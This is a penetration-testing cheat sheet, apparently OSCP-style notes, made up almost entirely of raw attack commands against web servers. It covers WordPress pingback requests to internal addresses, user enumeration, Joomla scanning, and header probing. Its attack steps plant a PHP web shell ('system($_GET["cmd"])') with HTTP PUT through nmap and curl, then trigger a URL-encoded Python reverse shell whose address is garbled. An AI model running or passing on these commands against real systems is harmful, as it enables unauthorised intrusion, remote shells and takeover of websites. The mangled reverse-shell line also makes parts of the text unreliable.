 ```
Check IP behing WAF:
	https://IP.com/2020/01/22/discover-cloudflare-wordpress-ip/

pingback.xml:
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
 <param>
  <value>
   <string>http://10.0.0.1/hello/world</string>
  </value>
 </param>
 <param>
  <value>
   <string>https://IP.com/2020/01/22/hello-world/</string>
  </value>
 </param>
</params>
</methodCall>

curl -X POST -d @pingback.xml https://ip.com/xmlrpc.php

Enum User:
for i in {1..50}; do curl -s -L -i https://ip.com/wordpress\?author=$i | grep -E -o "Location:.*" | awk -F/ '{print $NF}'; done

# Joomscan
joomscan -u  http://10.11.1.111
joomscan -u  http://10.11.1.111 --enumerate-components

# Get header
curl -i 10.11.1.111

# Get options
curl -i -X OPTIONS 10.11.1.111

	# With PUT option enabled:

	nmap -p 80 10.1.10.111 --script http-put --script-args http-put.url='/test/rootme.php',http-put.file='/root/php-reverse-shell.php'

	curl -v -X PUT -d '<?php system($_GET["cmd"]);?>' http://10.1.10.111/test/cmd.php
	&& http://10.1.10.111/test/cmd.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%210.1.10.111%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27

# Get everything
curl -i -L 10.11.1.111
curl -i -H "User-Agent:Mozilla/4.0" http://10.11.1.111:8080

# Check for title and all links
curl 10.11.1.111 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'

# Look at page with just text
curl 10.11.1.111 -s -L | html2text -width '99' | uniq

# Check if it is possible to upload
curl -v -X OPTIONS http://10.11.1.111/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://10.11.1.111/test/shell.php

# Simple curl POST request with login data
```